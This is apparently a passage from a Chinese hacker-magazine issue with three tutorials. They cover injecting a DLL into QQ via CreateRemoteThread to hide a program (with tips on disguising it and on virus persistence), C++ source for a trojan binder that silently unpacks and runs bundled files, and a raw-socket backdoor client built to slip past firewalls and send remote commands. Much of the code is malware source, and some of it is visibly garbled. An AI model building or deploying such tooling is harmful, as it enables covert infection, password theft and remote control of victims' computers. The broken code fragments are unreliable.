这个函数用于更改进程的系统权限，第 1 个参数是要更改权限的令牌句柄；第 2 个参数如果为 True 表示更改所有的系统权限，False 表示更改部分；第 3 个参数是要更改的系统特权的值；第 4 个参数是第 3 个参数的大小；第 5 个参数返回更改系统特权以前的权限，我们不需要就设为 nil；第 6 个参数是第 5 个参数的大小。

把上面的东西合并起来写成一个函数，我们在其他代码中间直接调用 PromoteDebugPrivilege 就可以提升本进程的系统权限了。代码如下：

```pascal
function PromoteDebugPrivilege(const PromoteEnabled: Boolean): Boolean;
var
  hToken: THandle;
  TokenPriv: TOKEN_PRIVILEGES;
  Length: DWORD;
begin
  Result := False;
  if (OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, hToken)) then
  ...
begin
    TokenPriv.PrivilegeCount := 1;
    LookupPrivilegeValue(nil, 'SeDebugPrivilege', TokenPriv.Privileges[0].Luid);
    if PromoteEnabled then
        TokenPriv.Privileges[0].Attributes := SE_PRIVILEGE_ENABLED
    else
        TokenPriv.Privileges[0].Attributes := 0;
    Length := 0;
    AdjustTokenPrivileges(hToken, False, TokenPriv, SizeOf(TokenPriv), nil, Length);
    Result := GetLastError = ERROR_SUCCESS;
    CloseHandle(hToken);
end;
end;
```

### 第二步，进入宿主的内存空间

在拥有了进入宿主程序内存的权限之后，我们所要做的是在其内存空间加入一些新的程序代码，或者是让其载入一个 DLL 文件里面的函数并运行起来。加入新的代码可以省掉一个 DLL 文件，而加载 DLL 文件可以安装一些系统级的钩子。如果我们的隐形程序是一个截获密码的程序，加载 DLL 就是一个很好的选择。

Kernel32.dll 中的函数 LoadLibraryW 可以加载 DLL，它只需要 DLL 文件的文件路径就可以完成操作。我们可以很容易地在程序代码中实现取出一个文件路径的操作。但是，我们希望在宿主程序中加载，而我们取出的 DLL 文件路径并不存在于宿主程序的内存空间里面，所以我们需要把 DLL 的文件路径写入宿主的内存空间。这些操作可能用到以下的函数。

- 1. 函数 OpenProcess(

```c
DWORD dwDesiredAccess, // 访问标志
BOOL bInheritHandle,   // 继承句柄标志
DWORD dwProcessId      // 进程ID
);
```

这个函数用于修改我们宿主进程的一些属性，这些属性放在第 1 个参数里面，比如 PROCESS_VM_OPERATION 就是允许远程 VM 操作，即允许 VirtualProtectEx 和 WriteProcessMemory 函数操作本进程内存空间，PROCESS_CREATE_THREAD 就是允许远程创建线程，PROCESS_VM_WRITE 就是允许远程 VM 写，即允许 WriteProcessMemory 函数访问本进程的内存空间。第 2 个参数是一个标志参数，用来确定返回的句柄是否可以被新的进程继承，我们的程序中设为 False。第 3 个参数是需要操作的进程 ID，也就是我们的宿主进程的 ID。

- 2. 函数 VirtualAllocEx(

```c
HANDLE hProcess,           // 要进行操作的进程句柄，当然是我们的宿主了
LPVOID lpAddress,          // 分配空间的起始地址
DWORD dwSize,              // 分配空间的大小
DWORD flAllocationType,    // 分配空间的类型
DWORD flProtect            // 访问保护类型
);
```

我们使用 VirtualAllocEx 函数在宿主进程中开辟一块内存空间，用于存放 DLL 的文件名。VirtualAllocEx 的第 1 个参数是要操作的进程，第 2 个是起始地址，第 3 个是长度，第 4、5 个是操作参数。其中 MEM_COMMIT 表示本函数分配的是物理内存或者是内存的页面文件，PAGE_READWRITE 表示分配的区域内允许读写。

- 3. 函数 WriteProcessMemory(

```c
HANDLE hProcess,                // 所要操作进程的句柄
LPVOID lpBaseAddress,           // 开始进行写操作的起始地址
LPVOID lpBuffer,                // 要写入数据的缓冲区指针
DWORD nSize,                    // 要写的 bytes 数
LPDWORD lpNumberOfBytesWritten  // 实际写入的 bytes 数
);
```

前面在宿主内存中创建好空间后，现在往里面写入 DLL 的名称，而我们的 WriteProcessMemory 函数就可以胜任这一项工作。WriteProcessMemory 函数的第 1 个参数是需要往其内存里面写入 DLL 的进程句柄；第 2 个参数是“要进行写操作”的目标内存起始地址；第 3 个参数是“需要被写入的数据”的地址；第 4 个参数是准备要写入的长度；第 5 个参数是实际操作中写的长度，这个参数是被函数输出的。到这里我们就已经能成功把 DLL 的路径名称写进了宿主的内存空间。

### 第三步，在宿主中启动新的线程

刚才我们已经在宿主程序中创建了用于存放一个 DLL 文件路径的缓冲区，现在我们就要让这个 DLL 在宿主的内存空间中运行起来。我们是用 LoadLibraryW 函数来加载的，而使用 LoadLibraryW，又需要知道 LoadLibraryW 函数的入口地址。所以在加载 DLL 之前，我们要用 GetProcAddress 来得到 LoadLibraryW 的入口地址。下面来看看这几个函数的使用方法。

- 1. GetProcAddress(

```c
HMODULE hModule;   // DLL 模块的句柄
LPCSTR lpProcName; // 函数名称
);
```

我们用这个函数主要是想得到 Kernel32.dll 中的函数 LoadLibraryW 的入口地址，所以 GetProcAddress(GetModuleHandle("Kernel32"), "LoadLibraryW") 就可以了，当然有些细节得符合程序编译器的要求，VC 下使用就要改成 GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW") 的形式。

图1

- 2. CreateRemoteThread(

```c
HANDLE hProcess;                         // 要进行操作的进程句柄，也就是我们的宿主句柄
LPSECURITY_ATTRIBUTES lpThreadAttributes;// 线程安全属性的指针
DWORD dwStackSize;                       // 初始化堆(stack)的大小
LPTHREAD_START_ROUTINE lpStartAddress;   // 新建线程函数的指针，或叫做地址
LPVOID lpParameter;                      // 新建线程函数的参数
DWORD dwCreationFlags;                   // 标志位
LPDWORD lpThreadId;                      // 线程返回值
);
```

这个函数就是本文的点睛之笔了，我们之前所做的一切，都是在为它做准备工作，它的功能就是在其他任何进程中创建新的线程，让其他的程序或进程附加执行我们的代码。

图2

CreateRemoteThread 函数的第 1 个参数是要操作的宿主进程句柄，第 2 个参数为线程安全参数的指针，这里设为 nil；第 3 个参数为初始化堆(stack)的大小，这里设 0；第 4 个参数为新建线程函数的指针或叫做地址、入口；第 5 个参数为新建线程函数的参数，这里就是我们的 DLL 路径名称；第 6 个参数是标志位，这里设 0；第 7 个参数是线程返回值。

到这里，我们基本上把如何编写一个能够寄生于其他进程之中运行的 API 函数都依次讲完了。如果读者有兴趣亲手试一下的话，在光盘中可以找到已经编好的程序完整代码和详细的程序注释。当然这个寄生于进程中的 DLL 文件还需要自己编写，不过我写的内容是弹出一个“Hello world”，而寄生的宿主是我们常用的 QQ。我们打开 Windows 的任务管理器，看到有 QQ 在运行，而看不到其他的东西，如图1所示。

而使用 Windows 优化大师的进程管理工具，可以看到我们的 testDll 已经寄生在 QQ 内部并且开始运行了，如图2所示。

#### 后记

为了方便读者试验这个程序，我把 QQ 作为我们的宿主程序，因为关掉 QQ 就可以中止我们的“隐形程序”。如果我们把系统的 Kernel32 或者 Explorer 作为宿主，那就没有人随便关掉它们了。我们看到图2中使用专门的进程管理程序是可以看见我们的 DLL 在 QQ 中运行的，但是如果我们 DLL 的名字不叫 testDll 而叫做什么 QQAPI.dll 或者 Wsock32.dll 之类的，估计能引起注意的可能就很小了。

另外，“中国黑客”病毒的“三线程”技术，就使用了本文所涉及的线程注入技术。三线程的主要思路就是让程序创建 3 个线程，第 1 个线程同时监视注册表和第 2 个线程的运行状况。第 2 个线程是寄生在系统进程中的“隐形”线程，它主要负责监视第 1 个线程的运行状况。第 3 个线程是功能实现线程，它的自我保护机制就是前 2 个线程相互监视，一旦发现异常就设法重新启动对方。如果我们的宿主程序是 explorer.exe 和 taskmgr.exe 的话，那么用任务管理器来关闭程序就是不可能完成的任务了，因为只要 taskmgr 在运行，寄生在它体内的“隐形”线程就会发挥其作用。网上也有不少“三线程”技术的实现代码，读者可以自行找来看看，用来巩固编程技能，但是我的初衷只是想和大家交流和学习技术，希望读者不要根据本文编出一些无聊的程序来做一些破坏性的事情。

Socket：很多人都用过木马捆绑器，也就是把一个正常的程序和一个木马程序合并成一个程序。但是对于其中的原理并不怎么清楚，本文作者就从基础出发，给大家介绍了一下这类程序的编写和应用技巧。

## 有我戏绝傍地走

## ——绑定实现木马合并

文／图 727

将多个文件合并成一个最终可执行文件，运行这个最终合成文件后，就相当于运行了合并前的多个文件。这种程序在木马程序合并中会经常用到，你想知道它是怎么用程序实现的吗？

其实，其中的构成思想非常简单。合并文件时，建立一个新的二进制文件，先写入你自身捆绑程序的数据和其文件长度，再写入你要捆绑的第一个文件的数据和其文件长度，后再直接写入你要捆绑的第二个文件的数据和文件长度……最后可直接写入你要捆绑的最后一个文件的数据（不需其文件长度）。分解释放最终合成文件时，也就是将上面的方法倒过来即可：打开最终合成文件，读取源自身捆绑程序文件长度，将文件指针移到自身捆绑程序数据后，读取第一个被绑定文件的长度，接着读取其长度的文件数据并写入到一新建文件1中，再读取第二个被绑定文件的长度，接着读取其长度的数据并写入到新建文件2中……直到最后直接读取最后一个被绑定文件的数据并将其写入到最后一个新建文件中即可。（下面实例仅告诉你如何实现两个文件的捆绑，至于多个文件的捆绑，这里限于篇幅原因就不给出了。）

下面我来讲讲文件捆绑最核心的部分，以及如何具体将其用代码来实现的方法。

#### 1. 捆绑多个文件为一个可执行程序

- 先得到自身捆绑程序的文件长度和第一个要捆绑文件的文件长度，枚举第一个要捆绑文件有无图标，有的话就用它作为最终生成文件的图标，否则用自身捆绑程序所带默认图标做最终生成文件的图标。
- 在新建二进制文件中写入自身捆绑程序的数据和其文件长度，再写入第一个要捆绑文件的数据及其文件长度，最后直接写入第二个文件的数据即可。合并程序函数的具体代码实现如下所示。

```cpp
// 定义要使用到的捆绑程序自身文件信息的结构体
struct MODIFY_DATA {
    unsigned int finder;   // 常量(定位自身)
    _off_t my_length;      // 文件长度(自身)
} modify_data = {0x12345678, 0};

// 绑定二个文件为一个可执行文件
bool CBindFileDlg::Bind_Files()
{
    FILE* myself;   // 自身文件
    FILE* out;      // 最终合成文件
    FILE* in;       // 待绑定文件
    int bytesin;    // 一次读文件字节数
    int totalbytes = 0; // 读出文件总字节数
    struct _stat ST;    // 文件的状态信息(如文件长度等)
    unsigned int finder = 0x12345678; // 自身文件定位
    int i = 1; // 进度条状态显示变量
    char buff[20]; // 进度条状态显示变量

    his_name = strFirstFilePath; // 第一个绑定的文件名
    _stat(my_name, &ST); // 获取自身捆绑文件信息
    modify_data.my_length = ST.st_size; // 得到自身文件长度
    if (modify_data.my_length == 0) {
        MessageBox("绑定文件中,自身文件长度为零时出错!", "错误");
        return false;
    }

    buf = (BYTE*)malloc(modify_data.my_length); // 分配一定大小缓冲区
    if (buf == NULL) {
        MessageBox("绑定文件中, 分配自身文件长度时出错!", "错误");
        return false;
    }

    myself = fopen(my_name, "rb"); // 打开自身文件
    if (myself == NULL) {
        free(buf);
        MessageBox("绑定文件中, 打开自身文件时出错!", "错误");
        return false;
    }

    // 先读取捆绑程序自身文件数据
    ...
    bytesin = fread(buf, 1, modify_data.my_length, myself);
    fclose(myself);
    if (bytesin != modify_data.my_length)
    {
        free(buf);
        MessageBox("绑定文件中，不能完全读取自身文件内容时出错!", "错误");
        return false;
    }
    // 存储自身文件信息到缓冲区(如长度)
    for (i = 0; i < modify_data.my_length - sizeof(finder); i += sizeof(finder))
    {
        for (k = 0; k < sizeof(finder); k++)
        {
            if (buf[i+k] != ((BYTE*)&finder)[k])
                break;
        }
        if (k == sizeof(finder)) // 定位并保存自身数据文件信息
        {
            memcpy(buf + i, &modify_data, sizeof(modify_data));
            break;
        }
    }
    if (i >= modify_data.my_length - sizeof(finder))
    {
        free(buf);
        MessageBox("绑定文件中, 不能定位自身文件时出错!", "错误");
        return false;
    }
    // 获取第一个要绑定文件的信息(文件长度)
    if (_stat(strFirstFilePath, &ST) != 0 || ST.st_size == 0)
    {
        free(buf);
        MessageBox("绑定文件中，读取第一个要绑定文件时出错!", "错误");
        return false;
    }
    // 获取自身文件图标及第一个要绑定文件的图标(如第一个要绑定文件没有图标)
    // 则用自身文件图标。其函数实现请参看例程
    list_my_icons();
    out = fopen(strFinalFilePath, "wb"); // 创建最终合成文件
    if (out == NULL)
    {
        free(buf);
        MessageBox("绑定文件中，创建绑定后生成的合成文件时出错!", "错误");
        return false;
    }
    // 先将前面读出的自身捆绑程序的数据写入最终合成文件中
    ...
    totalbytes += fwrite(buf, 1, bytesin, out);
    in = fopen(strFirstFilePath, "rb"); // 打开第一个要绑定文件
    if (in == NULL)
    {
        free(buf);
        ...
    }

    MessageBox("绑定文件中，打开第一个要绑定文件时出错!", "错误");
    return false;
    }
    // 写入第一个要绑定文件的长度到最终合成文件中
    totalbytes += fwrite(&ST.st_size, 1, sizeof(ST.st_size), out);
    // 写入最终分解后文件执行方式的标志位(同步或异步执行)
    UpdateData(TRUE); // 传控件值到变量 m_Sync 中
    totalbytes += fwrite(&m_Sync, 1, sizeof(int), out);
    // 写入第一个要绑定文件的数据到最终合成文件中
    while (bytesin = fread(buf, 1, modify_data.my_length, in))
    {
        totalbytes += fwrite(buf, 1, bytesin, out);
    }
    fclose(in); // 关闭第一个绑定文件句柄
    // 设置进度条显示
    m_Progress.SetRange(0,500);
    for (int m = 0; m < 500; m++)
        m_Progress.SetPos(m);
        m_Parts = _ltoa(l, buff, 10);
        m_Parts += _T("个文件已绑定");
        UpdateData(FALSE);
        l++;
    in = fopen(strSecondFilePath, "rb"); // 打开第二个要绑定的文件
    if (in == NULL)
    {
        free(buf);
        MessageBox("绑定文件中，打开第二个要绑定文件时出错!", "错误");
        return false;
    }
    // 直接写入第二个要绑定文件的数据到最终合成文件中
    while (bytesin = fread(buf, 1, modify_data.my_length, in))
    {
        totalbytes += fwrite(buf, 1, bytesin, out);
    }
    // 设置进度条显示
    m_Progress.SetRange(0,500);
    for (int n = 0; n < 500; n++)
        m_Progress.SetPos(n);
        m_Parts = _ltoa(l, buff, 10);
        m_Parts += _T("个文件已绑定");
        UpdateData(FALSE);
        l++;
    fclose(in);  // 关闭第二个绑定文件句柄
    fclose(out); // 关闭最终合成文件句柄
    free(buf);   // 释放缓冲区
    return true;
}
```

#### 2. 释放最终合成文件并同时运行它们

打开自身文件，从中得到自身捆绑程序的文件长度，便可将文件指针定位到第一个被捆绑文件的位置，读取其文件长度和其数据，将其读出数据写入第一个新建文件中。同样，通过已读取的自身捆绑程序信息可继续释放后续文件。

将程序文件长度和第一个被捆绑文件的文件长度加上其保存这两个文件长度值的字节数，即可准确定位第二个被捆绑文件的位置，读取其数据，写入到第二个新建文件中。同时，运行这两个文件，最后再删除这两个文件即可。释放最终合成文件的代码具体实现如下所示。

```cpp
// 创建分解文件名，运行各分解文件时的进程
void CBindFileDlg::Create_Process(const char* temp_exe, BOOL async)
{
    HANDLE hProcess;   // 进程句柄
    HANDLE hThread;    // 线程句柄
    PROCESS_INFORMATION PI; // 进程信息
    STARTUPINFO SI;    // 启动信息
    memset(&SI, 0, sizeof(SI));
    SI.cb = sizeof(SI);
    CreateProcess(temp_exe, NULL, NULL, NULL, FALSE,
        NORMAL_PRIORITY_CLASS, NULL, NULL, &SI, &PI);

    hProcess = PI.hProcess;
    hThread = PI.hThread;

    // 异步执行时，执行后不删除分解后的文件；同步执行时，执行后删除分解后的文件
    if (!async)
    {
        WaitForSingleObject(hProcess, INFINITE);
        unlink(temp_exe); // 删除 temp.exe 文件
    }
}

// 分解已合并的文件，同时运行它们
void CBindFileDlg::Unbind()
{
    FILE* myself;  // 自身文件
    FILE* out;     // 分解后文件
    int bytesin;   // 一次读出文件的字节数
    int totalbytes = 0;
    char temp_exe1[] = "temp1.exe";
    char temp_exe2[] = "temp2.exe";
    int SyncFlag;

    buf = (BYTE*)malloc(modify_data.my_length);
    myself = fopen(my_name, "rb");
    if (myself == NULL)
    {
        ...
    }

    free(buf);
    MessageBox("分离文件中，打开自身文件时出错!", "错误");
    return;

    out = fopen(temp_exe1, "wb"); // 创建第一个绑定的文件
    if (out == NULL)
    {
        free(buf);
        MessageBox("分离文件中，创建第一个被绑定文件时出错!", "错误");
        return;
    }

    // 将文件指针定位到捆绑器程序长度尾部
    fseek(myself, modify_data.my_length, SEEK_SET);
    // 读取第一个绑定文件的长度
    if (fread(&prog1_length, sizeof(prog1_length), 1, myself) == 0)
    {
        free(buf);
        MessageBox("分离文件中，读取第一个被绑定文件长度时出错!", "错误");
        return;
    }

    // 读取最终文件执行方式（同步或异步执行）
    if (fread(&SyncFlag, sizeof(int), 1, myself) == 0)
    {
        free(buf);
        MessageBox("分离文件中，读取第一个被绑定文件长度时出错!", "错误");
        return;
    }

    // 读取第一个文件内容并写入到新建的 temp1.exe 文件中
    while (bytesin = fread(buf, 1, sizeof(buf), myself))
    {
        if (totalbytes + bytesin > prog1_length)
            bytesin = prog1_length - totalbytes;
        totalbytes += fwrite(buf, 1, bytesin, out);
    }
    fclose(out);

    #ifdef DEBUG_PRINT
    fprintf(stderr, "已经倒 %d 字节\n", totalbytes);
    #endif

    totalbytes = 0;
    out = fopen(temp_exe2, "wb"); // 创建第二个绑定的文件
    if (out == NULL)
    {
        free(buf);
        MessageBox("分离文件中，创建第二个被绑定文件时出错!", "错误");
        return;
    }

    // 将文件指针定位到最终合成文件中的第二个绑定文件头部...
    ...
    fseek(myself, modify_data.my_length + sizeof(modify_data.my_length) + sizeof(int) + prog1_length, SEEK_SET);
    // 读取第二个绑定文件内容并写入到新建的 temp2.exe 文件中
    while (bytesin = fread(buf, 1, sizeof(buf), myself)) {
        totalbytes += fwrite(buf, 1, bytesin, out);
    }
    fclose(out); // 关闭第二个绑定文件句柄

    #ifdef DEBUG_PRINT
    fprintf(stderr, "已复制 %d 字节\n", totalbytes);
    #endif

    fclose(myself); // 关闭最终合成文件句柄
    if (totalbytes == 0) {
        free(buf);
        MessageBox("分离文件中，在自身文件中没有被分离的对象!", "错误");
        return;
    }
    free(buf); // 释放缓冲区

    // 判断前面读取的最终文件执行标志，来决定以何种方式运行它
    if (SyncFlag) { // 0 -- 同步执行, 1 -- 异步执行
        // 置为分解后，为同步执行方式
        Create_Process(temp_exe1, false);
        Create_Process(temp_exe2, false);
    } else {
        // 置为分解后，为异步执行方式
        Create_Process(temp_exe1, true);
        Create_Process(temp_exe2, true);
    }
    ...
}
```

```cpp
// IDM_ABOUTBOX must be in the system command range.
ASSERT((IDM_ABOUTBOX & 0xFFF0) == IDM_ABOUTBOX);
ASSERT(IDM_ABOUTBOX < 0xF000);

CMenu* pSysMenu = GetSystemMenu(FALSE);
if (pSysMenu != NULL) {
    CString strAboutMenu;
    strAboutMenu.LoadString(IDS_ABOUTBOX);
    if (!strAboutMenu.IsEmpty()) {
        pSysMenu->AppendMenu(MF_SEPARATOR);
        pSysMenu->AppendMenu(MF_STRING, IDM_ABOUTBOX, strAboutMenu);
    }
}

// Set the icon for this dialog...
SetIcon(m_hIcon, TRUE);
SetIcon(m_hIcon, FALSE);

// 在此初始化渐变色进度条
m_Progress.SetRange32(1,500);
m_Progress.SetBkColor(RGB(160,180,220));
m_Progress.ShowPercent(true);
m_Progress.SetPos(500);

// 初始化各变量
strFirstFilePath = "";
strSecondFilePath = "";
strFinalFilePath = "";
prog1_length = 0;
his_name = "";
buf = NULL;
::GetModuleFileName(0, my_name, sizeof(my_name));

struct _stat ST;
_stat(my_name, &ST);
if (ST.st_size > 184*1024) {
    Unbind();
    exit(0);
}

return TRUE;
```

#### 3. 判断何时捆绑程序

何时又分解最终合成程序。由于本程序是将自身捆绑程序作为文件头、要绑定文件附加其后方式生成最终合成文件的，所以只要知道自身捆绑程序的文件长度，再用初始化对话框函数 OnInitDialog() 加以判断，即可知道是否是最终合成文件（要不要释放内部绑定文件）。本例采用 VC6.0 静态连接生成 Release 版，文件大小约为 184KB，对应判断与释放逻辑如下所示。

```cpp
BOOL CBindFileDlg::OnInitDialog()
{
    CDialog::OnInitDialog();
    // Add "About..." menu item to system menu.
    ...
}
```

### 用原始套接字创建穿墙木马


文／图 abettor[黑防VIP]

最近由于工作原因，需要对底层网络协议进行分析，监控数据包的流量及内容。在分析过程中，我发现在 Windows 2000 系统中可以通过创建原始套接字（RAW SOCKET）来访问底层协议。利用这种手段，黑客可以随意构造 IP 层及 IP 层以上协议的数据包，从而进行数据欺骗或身份冒充等网络攻击。著名的 SYN Flood 其实就是利用了这一手段，再加上 TCP 协议的不完善性原理发动拒绝服务（DoS）攻击的。但是，我的目的并不是破坏，而是想利用这个原理编写一个能够实现更隐蔽通信的后门程序（或者，干脆叫它木马算了）。

大家知道，现在的绝大多数防火墙都会对各种数据包进行严格的过滤，尤其是 TCP 包、UDP 包、ICMP 包和 IGMP 包等。但是，对于未知协议的数据包，防火墙就难免有疏漏了。正是抓住这一弱点，我们可以利用原始套接字构造我们自己定义的数据包，实现自己的通信协议，从而即使在防火墙的监视之下，也可以大大方方地进进出出。其实这种方法在网络上早就有所流传，但现在的防火墙似乎对此有些无奈，苦于难以防范这种攻击。

在进行 SOCKET 编程的时候，只需要构造好“User Data”部分就可以了，然后直接调用 send 函数，就把数据“发出去”了，接着一个 recv，就又“接收到了”对方的数据。其实，在调用这些函数的时候，操作系统在暗地里做了很多事情。它先在用户数据前边加一个 TCP 或 UDP 头，填充远程和本地的端口号等信息；然后，再在前面加上一个 IP 头，填充双方的 IP 地址信息；最后，再在前面添加一个 Ethernet 头，填充以太网地址信息。可以认为 TCP 协议和 IP 协议就是分别在对 TCP 头和 IP 头的控制上实现的。IP 数据头的结构用 C 语言是这样描述的：

```cpp
typedef struct tag_IP_HEADER
{
    BYTE   cVerAndLen;    // 长度及版本
    BYTE   cTypeOfServ;   // 服务类型
    WORD   wTotalLen;     // 数据包总长
    WORD   wId;           // 数据包标识
    WORD   wFlagAndFrag;  // 分段偏移标志
    BYTE   cTimeToLive;   // 生存期
    BYTE   cProtocol;     // 协议
    WORD   wChksum;       // 校验和
    DWORD  dwSrcAddr;     // 源地址
    DWORD  dwDstAddr;     // 目的地址
} IP_HEADER, *PIP_HEADER;
```

#### 原理篇

我们首先要了解一下在网络上传输的数据包的结构，如图 1 所示。

| Ethernet Header | IP Header | TCP or other Header | User Data |
|---|---|---|---|

图 1

这就是一般的数据包结构简单示意图。在传输数据的时候，操作系统是从“左”向“右”依次按 Bit 传输数据的，但在发送之前，是按从“右”向“左”依次按模块组装数据的。

在这个结构里，有一个 cProtocol 字段，表示 IP 层所承载的协议类型。我们要创造自己的通信协议，就要求在发送数据的时候，能控制数据包中的 IP 数据包头，使其可以由我们来自由填充，填写一个自定义的协议代码，然后发送如图 2 所示结构的数据包。

| Ethernet Header | IP Header | User Data Packet |
|---|---|---|

图 2

要做到这一点，需要两个步骤。

创建一个原始套接字：

```cpp
SOCKET skRaw = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);

AF_INET     // 表示 TCP/IP 网络域
SOCK_RAW    // 表示创建原始套接字
IPPROTO_RAW // 表示要发送原始 IP 数据包
```

设置成可以自己填充 IP 数据包头：

```cpp
BOOL bOn = TRUE;
setsockopt(skRaw, IPPROTO_IP, IP_HDRINCL, (char*)&bOn, sizeof(bOn));
```

当 bOn 为 TRUE 时表示打开此功能。上边是发送数据时的要求。而在接收数据的时候，由于是我们自己构造的协议，所以没有办法通过常规手段直接接收用户数据，我们必须接收经过本地网卡的所有数据包，然后进行筛选。因而，我们还需要创建另一个特殊的套接字，这需要 3 个步骤。

创建一个原始套接字：

```cpp
SOCKET skRaw = socket(AF_INET, SOCK_RAW, IPPROTO_IP);
```

注意这里的第三个参数是 IPPROTO_IP，而不是 IPPROTO_RAW，为什么？我先卖个小关子。

绑定本地 IP 地址：

```cpp
SOCKADDR_IN stListen;
// 初始化 stListen 的过程
bind(skRaw, (PSOCKADDR)&stListen, sizeof(SOCKADDR));
```

将 stListen 结构初始化为本地 IP 地址，端口任意，绑定到刚才创建的 skRaw 套接字。

设置网卡为“混杂模式”，即使之能接收经过本网卡的所有数据包：

```cpp
DWORD dwOn = 1;
ioctlsocket(skRaw, SIO_RCVALL, &dwOn);
```

这正是用户模式下工作的 Sniffer 原理。这里有一个 SIO_RCVALL 参数，需要提前定义，或者如果能找到 mstcpip.h 头文件，将其包含到工程里也可以。

`#define SIO_RCVALL _WSAIOW(IOC_VENDOR,1)`

现在该解释一下为什么上面那个 socket 函数的第三个参数是 IPPROTO_IP 而不是 IPPROTO_RAW。关于这一点，MSDN 是这样描述的：如果要设置 SIO_RCVALL 标志，socket 的 type 参数必须为 SOCK_RAW，protocol 参数必须为 IPPROTO_IP，且必须提前将套接字绑定到一个实际存在的 IP 地址上，也就是说不能绑定到 INADDR_ANY 地址上。这几点要格外注意，否则 ioctlsocket 函数调用将会失败。

#### 实战篇

说了一大篇理论，大家可能早就一头雾水，不知所云了。下面来点实际的，正式开始创建我们的穿墙木马。

这个木马分为客户端和服务端两部分，我们分别来进行讨论。

##### 1. 客户端

客户端往往比较简单一些，所以我们就选择先从客户端下手。

- 1）构建自定义协议数据结构，用于承载木马在通信过程中实际要传输的命令或执行结果数据，并应能够实现差错控制和丢包重传等机制（这里略去细节）。此数据结构我是这样定义的：

```cpp
#define ARG_MAX_LEN 1400      // 最大数据长度
#define PROTO_TYPE_TROJAN 254 // 自定义协议代码

typedef struct tag_TROJAN_PACKET {
    DWORD dwCmd;      // 命令代码
    BOOL  bLastFlag;  // 是否为“最后”一个包
    DWORD dwSeq;      // 序列号
    DWORD dwAck;      // 确认号
    UINT  nArgLen;    // 数据内容长度
    BYTE  szArg[ARG_MAX_LEN + 1]; // 数据内容
} TROJAN_PACKET, *PTROJAN_PACKET;

#define TROJ_CMD_EXEC 0
#define TROJ_CMD_DISP 1
#define TROJ_CMD_RESP 2
```

将此结构存为 TrojProto.h 文件，以方便引用。

- 2）初始化 WSA，创建原始套接字，类型为原始 IP 数据包。在工程的开始应该包含 TrojProto.h 头文件，还应包含 Rawpack.h 头文件（这个文件也是我自己定义的，里面包含我的 IP 数据包头数据结构以及校验和函数 Checksum 函数的定义）。

```cpp
#include "Rawpack.h"
#include "TrojProto.h"
#pragma comment(lib, "Ws2_32")

WSADATA stWsaData;
WSAStartup(MAKEWORD(2,2), &stWsaData);
SOCKET skRaw = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);
```

上边已经给出参数说明，这里就不赘述了。

- 3）设置 IPPROTO_IP 的 IP_HDRINCL 开关，使我们可以自己构造 IP 数据包头的内容。

```cpp
BOOL bOn = TRUE;
setsockopt(skRaw, IPPROTO_IP, IP_HDRINCL, (char*)&bOn, sizeof(bOn));
```

- 4）设置发送数据的超时时间为 1000 毫秒。

```cpp
int nTimeOver = 1000;
setsockopt(skRaw, SOL_SOCKET, SO_SNDTIMEO, (char*)&nTimeOver, sizeof(nTimeOver));
```

- 5）创建接收线程，用于接收服务器返回的执行结果。

```cpp
CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)&ListenThread, NULL, 0, 0);
```

这里的 ListenThread 是接收线程工作函数，我们一会儿再介绍。

- 6）声明并填充自定义数据包，将要发送的命令填充到数据包中，准备发送。

```cpp
TROJAN_PACKET stTroPack;
memset(&stTroPack, 0, sizeof(TROJAN_PACKET));
gets((char*)stTroPack.szArg); // 在此处输入命令字符串
stTroPack.dwCmd = TROJ_CMD_EXEC;
stTroPack.bLastFlag = TRUE;
stTroPack.dwAck = 0;
stTroPack.dwSeq = (DWORD)rand();
stTroPack.nArgLen = strlen((char*)stTroPack.szArg);
```

- 7）声明并填充 IP 数据包，请特别注意这里的 cProtocol 字段，它表明了现在我们要使用的自定义协议类型。

```cpp
IP_HEADER stIpHeader;
stIpHeader.wFlagAndFrag = 0;
stIpHeader.cVerAndLen = 4 << 4 | sizeof(IP_HEADER) / sizeof(ULONG);
stIpHeader.cProtocol = PROTO_TYPE_TROJAN;
stIpHeader.cTimeToLive = 128;
stIpHeader.cTypeOfServ = 0;
stIpHeader.dwDstAddr = inet_addr("服务器IP地址");
stIpHeader.dwSrcAddr = inet_addr("本机IP地址");
stIpHeader.wChksum = 0;
stIpHeader.wId = htons((USHORT)rand());
stIpHeader.wTotalLen = htons((USHORT)(sizeof(IP_HEADER) + sizeof(TROJAN_PACKET)));
```

这里用到一个定义过的 PROTO_TYPE_TROJAN 宏，作为自定义的协议代码，只要不和已知协议代码重复就行。

- 8）组建待发送数据包，进行 IP 层数据校验。

```cpp
char szSendBuf[sizeof(IP_HEADER) + sizeof(TROJAN_PACKET)];
memcpy(szSendBuf, &stIpHeader, sizeof(IP_HEADER));
memcpy(szSendBuf + sizeof(IP_HEADER), &stTroPack, sizeof(TROJAN_PACKET));
stIpHeader.wChksum = Checksum((USHORT*)szSendBuf, sizeof(IP_HEADER) + sizeof(TROJAN_PACKET));
memcpy(szSendBuf, &stIpHeader, sizeof(IP_HEADER));

USHORT Checksum(USHORT* lpBuffer, int nBufLen)
{
    ULONG ulChksum = 0;
    while (nBufLen > 1)
    {
        ulChksum += *lpBuffer++;
        nBufLen -= sizeof(USHORT);
    }
    if (nBufLen)
    {
        ulChksum += *(UCHAR*)lpBuffer;
    }
    ulChksum = (ulChksum >> 16) + (ulChksum & 0xFFFF);
    ulChksum += (ulChksum >> 16);
    return (USHORT)(~ulChksum);
}
```

- 9）发送命令数据包到服务端。

```cpp
SOCKADDR_IN stPeer;
memset(&stPeer, 0, sizeof(SOCKADDR_IN));
stPeer.sin_family = AF_INET;
stPeer.sin_addr.s_addr = inet_addr("目的IP地址");
stPeer.sin_port = htons(1025);
sendto(skRaw, szSendBuf, sizeof(IP_HEADER) + sizeof(TROJAN_PACKET), 0, (PSOCKADDR)&stPeer, sizeof(SOCKADDR));
```

转去重复执行步骤 6。下面分析用来接收数据线程工作函数。

```cpp
DWORD ListenThread(LPVOID pNoUse)
```

其定义如下：还是创建原始套接字（注意第三个参数的不同）。

```cpp
SOCKET skRawListen = socket(AF_INET, SOCK_RAW, IPPROTO_IP);
```

绑定套接字到本机 IP 地址。

```cpp
SOCKADDR_IN stListen;
// 初始化为本机 IP 地址、端口随意
bind(skRawListen, (PSOCKADDR)&stListen, sizeof(SOCKADDR));
```

